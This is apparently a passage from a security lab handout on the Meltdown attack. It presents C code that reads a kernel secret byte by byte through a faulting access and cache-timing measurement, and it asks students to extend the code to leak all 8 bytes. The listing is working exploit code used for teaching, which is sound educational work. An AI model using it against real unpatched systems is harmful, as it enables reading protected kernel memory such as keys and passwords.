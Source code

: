 \begin{lstlisting}[caption=\texttt{MeltdownAttack.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }

  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
    ret = pread(fd, NULL, 0, 0);
    if (ret < 0) {
      perror("pread");
      break;
    }
	
    // Flush the probing array
    for (j = 0; j < 256; j++) 
        _mm_clflush(&array[j * 4096 + DELTA]);

    if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }

    reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
    if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return 0;
}
\end{lstlisting}


Please compile and run the code, and explain your observations. 
The code above only steals a one-byte secret from the kernel. The actual
secret placed in the kernel module has 8 bytes. You need to modify the above code
to get all the 8 bytes of the secret.


\section{Submission}







\def\baselinestretch{1}





